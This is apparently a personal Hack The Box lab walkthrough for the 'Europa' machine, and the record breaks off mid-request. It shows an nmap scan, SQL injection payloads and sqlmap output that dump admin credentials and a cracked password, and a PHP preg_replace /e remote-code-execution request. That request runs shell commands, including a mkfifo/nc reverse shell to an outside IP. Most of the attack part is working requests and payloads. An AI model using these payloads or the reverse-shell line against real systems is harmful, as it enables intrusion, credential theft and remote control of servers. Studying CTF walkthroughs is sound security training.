



# HTB - Europa 10.10.10.22


# Walkthrough

- https://v3ded.github.io/ctf/htb-europa.html


# Nmap

```
# nmap -sC -sV -A 10.10.10.22 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-08 23:28 CEST
Nmap scan report for 10.10.10.22
Host is up (0.030s latency).
Not shown: 65532 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%), Linux 4.4 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   30.18 ms 10.10.14.1
2   30.54 ms 10.10.10.22

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.10 seconds
root@kali:~/htb/YoloToolbox/machines/htb/europa# 
```

=> www.europacorp.htb admin-portal.europacorp.htb


## https://admin-portal.europacorp.htb/login.php



- SB Admin 2 v3.3.7+1 

Intercept with Burp
```
POST /login.php HTTP/1.1
Host: admin-portal.europacorp.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://admin-portal.europacorp.htb/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Cookie: PHPSESSID=09jj6hj8psto83lajmdr6i5093
Connection: close
Upgrade-Insecure-Requests: 1

email=aaa%40a.com&password=aa
```
```
POST /login.php HTTP/1.1
Host: admin-portal.europacorp.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://admin-portal.europacorp.htb/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Cookie: PHPSESSID=09jj6hj8psto83lajmdr6i5093
Connection: close
Upgrade-Insecure-Requests: 1

email='UNION ALL SELECT NULL,NULL,NULL,NULL,NULL##&password='UNION ALL SELECT NULL,NULL,NULL,NULL,NULL#
```

## sqlmap

```
# sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" 
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 00:41:57

[00:41:58] [INFO] testing connection to the target URL
[00:41:58] [INFO] checking if the target is protected by some kind of WAF/IPS
[00:41:58] [INFO] testing if the target URL content is stable
[00:41:59] [INFO] target URL content is stable
[00:41:59] [INFO] testing if POST parameter 'email' is dynamic
[00:41:59] [WARNING] POST parameter 'email' does not appear to be dynamic
[00:41:59] [INFO] heuristic (basic) test shows that POST parameter 'email' might be injectable (possible DBMS: 'MySQL')
[00:41:59] [INFO] heuristic (XSS) test shows that POST parameter 'email' might be vulnerable to cross-site scripting (XSS) attacks
[00:41:59] [INFO] testing for SQL injection on POST parameter 'email'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[00:42:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[00:42:07] [WARNING] reflective value(s) found and filtering out
[00:42:08] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[00:42:08] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[00:42:13] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[00:42:17] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[00:42:22] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[00:42:22] [INFO] POST parameter 'email' appears to be 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause' injectable (with --string="beta")
[00:42:22] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[00:42:23] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[00:42:23] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[00:42:23] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[00:42:23] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[00:42:23] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[00:42:23] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[00:42:23] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[00:42:23] [INFO] POST parameter 'email' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[00:42:23] [INFO] testing 'MySQL inline queries'
[00:42:23] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[00:42:24] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[00:42:24] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP - comment)'
[00:42:24] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP)'
[00:42:24] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[00:42:24] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[00:42:24] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[00:42:24] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind'
[00:42:45] [INFO] POST parameter 'email' appears to be 'MySQL >= 5.0.12 OR time-based blind' injectable 
[00:42:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[00:42:45] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[00:42:45] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[00:42:45] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[00:42:45] [INFO] target URL appears to have 5 columns in query
sqlmap got a 302 redirect to 'https://admin-portal.europacorp.htb/dashboard.php'. Do you want to follow? [Y/n] n
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[00:43:05] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[00:43:07] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[00:43:09] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[00:43:11] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[00:43:14] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[00:43:16] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[00:43:18] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[00:43:21] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[00:43:23] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[00:43:26] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 403 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=whatever' RLIKE (SELECT (CASE WHEN (8671=8671) THEN 0x7768617465766572 ELSE 0x28 END))-- jiWF&password=whatever

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=whatever' OR (SELECT 6254 FROM(SELECT COUNT(*),CONCAT(0x7176717671,(SELECT (ELT(6254=6254,1))),0x716b7a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- xysH&password=whatever

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: email=whatever' OR SLEEP(5)-- YyFP&password=whatever
---
[00:43:32] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[00:43:32] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'

[*] shutting down at 00:43:32

root@kali:~/htb/YoloToolbox/machines/htb/europa# 
root@kali:~/htb/YoloToolbox/machines/htb/europa# 
```

Get tables
```
root@kali:~/htb/YoloToolbox/machines/htb/europa# sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" --tables
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.10#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 00:44:21

[00:44:21] [INFO] resuming back-end DBMS 'mysql' 
[00:44:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=whatever' RLIKE (SELECT (CASE WHEN (8671=8671) THEN 0x7768617465766572 ELSE 0x28 END))-- jiWF&password=whatever

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=whatever' OR (SELECT 6254 FROM(SELECT COUNT(*),CONCAT(0x7176717671,(SELECT (ELT(6254=6254,1))),0x716b7a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- xysH&password=whatever

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: email=whatever' OR SLEEP(5)-- YyFP&password=whatever
---
[00:44:21] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[00:44:21] [INFO] fetching database names
[00:44:22] [INFO] used SQL query returns 2 entries
[00:44:22] [INFO] retrieved: information_schema
[00:44:22] [INFO] retrieved: admin
[00:44:22] [INFO] fetching tables for databases: 'admin, information_schema'
...
[00:44:36] [INFO] retrieved: INNODB_SYS_TABLESTATS
[00:44:36] [INFO] retrieved: admin
[00:44:36] [INFO] retrieved: users
Database: admin
[1 table]
+---------------------------------------+
| users                                 |
+---------------------------------------+

Database: information_schema
[61 tables]
+---------------------------------------+
| CHARACTER_SETS                        |
...
| USER_PRIVILEGES                       |
| VIEWS                                 |
+---------------------------------------+

[00:44:36] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'

[*] shutting down at 00:44:36

```

Database: admin
[1 table]
+---------------------------------------+
| users        

```
# sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever"  -D admin -T users --dump 
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.2.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 00:49:44

[00:49:45] [INFO] resuming back-end DBMS 'mysql' 
[00:49:45] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=whatever' RLIKE (SELECT (CASE WHEN (8671=8671) THEN 0x7768617465766572 ELSE 0x28 END))-- jiWF&password=whatever

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=whatever' OR (SELECT 6254 FROM(SELECT COUNT(*),CONCAT(0x7176717671,(SELECT (ELT(6254=6254,1))),0x716b7a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- xysH&password=whatever

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: email=whatever' OR SLEEP(5)-- YyFP&password=whatever
---
[00:49:45] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[00:49:45] [INFO] fetching columns for table 'users' in database 'admin'
[00:49:45] [INFO] used SQL query returns 5 entries
[00:49:45] [INFO] resumed: id
[00:49:45] [INFO] resumed: int(11)
[00:49:45] [INFO] resumed: username
[00:49:45] [INFO] resumed: varchar(255)
[00:49:45] [INFO] resumed: email
[00:49:45] [INFO] resumed: varchar(255)
[00:49:45] [INFO] resumed: password
[00:49:45] [INFO] resumed: varchar(255)
[00:49:45] [INFO] resumed: active
[00:49:45] [INFO] resumed: tinyint(1)
[00:49:45] [INFO] fetching entries for table 'users' in database 'admin'
[00:49:45] [INFO] used SQL query returns 2 entries
[00:49:45] [INFO] resumed: 1
[00:49:45] [INFO] resumed: admin@europacorp.htb
[00:49:45] [INFO] resumed: 1
[00:49:45] [INFO] resumed: 2b6d315337f18617ba18922c0b9597ff
[00:49:45] [INFO] resumed: administrator
[00:49:45] [INFO] resumed: 1
[00:49:45] [INFO] resumed: john@europacorp.htb
[00:49:45] [INFO] resumed: 2
[00:49:45] [INFO] resumed: 2b6d315337f18617ba18922c0b9597ff
[00:49:45] [INFO] resumed: john
[00:49:45] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] Y
[00:49:48] [INFO] writing hashes to a temporary file '/tmp/sqlmap5OldgO30674/sqlmaphashes-z3WyW0.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] 
[00:49:50] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 2
what's the custom dictionary's location?
/usr/share/wordlists/rockyou.txt
[00:50:25] [INFO] using custom dictionary
do you want to use common password suffixes? (slow!) [y/N] 
[00:50:27] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[00:50:27] [INFO] starting 3 processes 
[00:52:21] [WARNING] no clear password(s) found                                                                                                                                                          
Database: admin
Table: users
[2 entries]
+----+----------------------+--------+---------------+----------------------------------+
| id | email                | active | username      | password                         |
+----+----------------------+--------+---------------+----------------------------------+
| 1  | admin@europacorp.htb | 1      | administrator | 2b6d315337f18617ba18922c0b9597ff |
| 2  | john@europacorp.htb  | 1      | john          | 2b6d315337f18617ba18922c0b9597ff |
+----+----------------------+--------+---------------+----------------------------------+

[00:52:21] [INFO] table 'admin.users' dumped to CSV file '/root/.sqlmap/output/admin-portal.europacorp.htb/dump/admin/users.csv'
[00:52:21] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'

[*] shutting down at 00:52:21

root@kali:~/htb/YoloToolbox/machines/htb/europa# 
```
Online 2b6d315337f18617ba18922c0b9597ff => SuperSecretPassword!


## https://admin-portal.europacorp.htb/dashboard.php




## https://admin-portal.europacorp.htb/tools.php : preg_replace() \e delimiter




Experimenting with the functionality of the VPNGenerator, it is easy to spot what it does. A placeholder string in the VPN generator window is substituted for a custom input via preg_replace() php function. Older implementations of preg_replace() are vulnerable to a remote command execution using \e specifier if you know how to approach it! I suggest doing your own research on the function if you are unfamiliar with php. Here are some links to help you:

- https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace
- http://www.madirish.net/402
- http://php.net/manual/en/function.preg-replace.php


Feel free to edit out all the giberrish and change the request data to pattern=%2Fv3ded%2Fe&ipaddress=system("ls -la /")&text=v3ded so that we can achieve RCE


Burp request 
```POST /tools.php HTTP/1.1
Host: admin-portal.europacorp.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://admin-portal.europacorp.htb/tools.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 1681
Cookie: PHPSESSID=09jj6hj8psto83lajmdr6i5093
Connection: close
Upgrade-Insecure-Requests: 1

pattern=%2Fip_address%2F&ipaddress=bob&text=%22openvpn%22%3A+%7B%0D%0A++++++++%22vtun0%22%3A+%7B%0D%0A++++++++++++++++%22local-address%22%3A+%7B%0D%0A++++++++++++++++++++++++%2210.10.10.1%22%3A+%22%27%27%22%0D%0A++++++++++++++++%7D%2C%0D%0A++++++++++++++++%22local-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22mode%22%3A+%22site-to-site%22%2C%0D%0A++++++++++++++++%22openvpn-option%22%3A+%5B%0D%0A++++++++++++++++++++++++%22--comp-lzo%22%2C%0D%0A++++++++++++++++++++++++%22--float%22%2C%0D%0A++++++++++++++++++++++++%22--ping+10%22%2C%0D%0A++++++++++++++++++++++++%22--ping-restart+20%22%2C%0D%0A++++++++++++++++++++++++%22--ping-timer-rem%22%2C%0D%0A++++++++++++++++++++++++%22--persist-tun%22%2C%0D%0A++++++++++++++++++++++++%22--persist-key%22%2C%0D%0A++++++++++++++++++++++++%22--user+nobody%22%2C%0D%0A++++++++++++++++++++++++%22--group+nogroup%22%0D%0A++++++++++++++++%5D%2C%0D%0A++++++++++++++++%22remote-address%22%3A+%22ip_address%22%2C%0D%0A++++++++++++++++%22remote-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22shared-secret-key-file%22%3A+%22%2Fconfig%2Fauth%2Fsecret%22%0D%0A++++++++%7D%2C%0D%0A++++++++%22protocols%22%3A+%7B%0D%0A++++++++++++++++%22static%22%3A+%7B%0D%0A++++++++++++++++++++++++%22interface-route%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++%22ip_address%2F24%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++%22next-hop-interface%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++++++++++%22vtun0%22%3A+%22%27%27%22%0D%0A++++++++++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++%7D%0D%0A++++++++++++++++%7D%0D%0A++++++++%7D%0D%0A%7D%0D%0A++++++++++++++++++++++++++++++++
```


Replace request
```
POST /tools.php HTTP/1.1
Host: admin-portal.europacorp.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://admin-portal.europacorp.htb/tools.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Cookie: PHPSESSID=09jj6hj8psto83lajmdr6i5093
Connection: close
Upgrade-Insecure-Requests: 1

pattern=%2Fv3ded%2Fe&ipaddress=system("ls -la /")&text=v3ded
```
Response
```
HTTP/1.1 200 OK
Date: Sun, 08 Sep 2019 22:56:23 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 17180
Connection: close
Content-Type: text/html; charset=UTF-8

total 93
drwxr-xr-x  23 root root  4096 Jun 23  2017 .
drwxr-xr-x  23 root root  4096 Jun 23  2017 ..
drwxr-xr-x   2 root root  4096 Jun 23  2017 bin
drwxr-xr-x   4 root root  1024 Jun 23  2017 boot
drwxr-xr-x  19 root root  3940 Sep  9 01:04 dev
drwxr-xr-x  92 root root  4096 Jun 23  2017 etc
drwxr-xr-x   3 root root  4096 Apr 18  2017 home
lrwxrwxrwx   1 root root    32 Jun 23  2017 initrd.img -> boot/initrd.img-4.4.0-81-generic
lrwxrwxrwx   1 root root    32 Apr 18  2017 initrd.img.old -> boot/initrd.img-4.4.0-72-generic
drwxr-xr-x  22 root root  4096 Apr 18  2017 lib
drwxr-xr-x   2 root root  4096 Jun 23  2017 lib64
drwx------   2 root root 16384 Apr 18  2017 lost+found
drwxr-xr-x   3 root root  4096 Apr 18  2017 media
drwxr-xr-x   2 root root  4096 Feb 15  2017 mnt
drwxr-xr-x   2 root root  4096 Feb 15  2017 opt
dr-xr-xr-x 185 root root     0 Sep  9 01:04 proc
drwx------   4 root root  4096 Jun 23  2017 root
drwxr-xr-x  25 root root   900 Sep  9 01:05 run
drwxr-xr-x   2 root root 12288 Jun 23  2017 sbin
drwxr-xr-x   2 root root  4096 Jan 14  2017 snap
drwxr-xr-x   2 root root  4096 Feb 15  2017 srv
dr-xr-xr-x  13 root root     0 Sep  9 01:04 sys
drwxrwxrwt   9 root root  4096 Sep  9 01:56 tmp
drwxr-xr-x  10 root root  4096 Apr 18  2017 usr
drwxr-xr-x  14 root root  4096 Apr 18  2017 var
lrwxrwxrwx   1 root root    29 Jun 23  2017 vmlinuz -> boot/vmlinuz-4.4.0-81-generic
lrwxrwxrwx   1 root root    29 Apr 18  2017 vmlinuz.old -> boot/vmlinuz-4.4.0-72-generic
<!DOCTYPE html>
<html lang="en">

<head>

    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <meta name="description" content="">
...
```

Get flag
```
POST /tools.php HTTP/1.1
Host: admin-portal.europacorp.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://admin-portal.europacorp.htb/tools.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 75
Cookie: PHPSESSID=09jj6hj8psto83lajmdr6i5093
Connection: close
Upgrade-Insecure-Requests: 1

pattern=%2FYOLO%2Fe&ipaddress=system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.32 1234 >/tmp/f")&text=YOLO
```

==>>>> XXXXXXXXXXXX


## nc

```
POST /tools.php HTTP/1.1
Host: admin-portal.europacorp.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://admin-portal.europacorp.htb/tools.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 130
